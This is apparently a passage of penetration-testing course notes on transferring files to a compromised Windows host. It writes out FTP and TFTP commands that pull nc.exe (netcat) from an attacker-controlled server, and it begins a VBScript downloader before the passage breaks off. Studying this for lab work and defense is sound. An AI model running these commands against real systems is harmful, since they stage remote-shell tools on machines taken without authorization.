 3. On compromised Win machine, craft a _txt_ file w/ list of **ftp** commands needed to download binary  
```bash
echo open <ftp_ip> 21> ftp.txt  
echo USER offsec>> ftp.txt  
echo lab>> ftp.txt  
echo bin >> ftp.txt  
echo quote pasv >> ftp.txt  
echo GET nc.exe >> ftp.txt  
echo bye >> ftp.txt
```
---------***NOTE:** Very important to notice there's no space btw the commands being echoed & the _**>**_ or _**>>**_ for Lines 1-3..  
	- **open**: Initiates FTP connection to the specified IP address  
	- **USER**: Authenticates as _offsec_ w/ password- _lab_  
	- **bin**: Requests a binary file transfer  
	- **quote pasv:** Puts in passive mode - doesn't get stuck at 200 PORT command successful  
	- **GET**: Reqests specific binary  
	- **bye**: Closes the connection.

4. Initiate FTP session using the _ftp.txt_ command list that'll allow for a non-interactive session (**-s**)  
```bash
ftp -v -n -s:ftp.txt
```
:
	- **-v** - Suppress any returned output *NOTE: may cause _Unknown command_ errors w/ **open**. Removing will work.  
	- **-n** - Suppresses automatic login  
	- **-s** - Indicates name of command file  
  
OR, literally just use those commands in the txt file ^.  
  
THAT being said, if the **tftp** service is available on Win:  
```powershell
tftp -i <attack_ip> GET nc.exe
```
	-- should work  
  
  
Issues: [https://ubuntuforums.org/archive/index.php/t-2124610.html](https://ubuntuforums.org/archive/index.php/t-2124610.html)  



### Scripting Languages:

Leverage scripting engines such as:  
- VBScript[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/file-transfers/transferring-files-with-windows-hosts/windows-downloads-using-scripting-languages#fn1) (inWindows XP, 2003)  
- PowerShell (in Windows 7, 2008, and above)  
  
  
Ex **wget.vbs.txt**:  
```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs  
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs  
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs  
echo  Err.Clear >> wget.vbs  
echo  Set http = Nothing >> wget.vbs  
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs  
```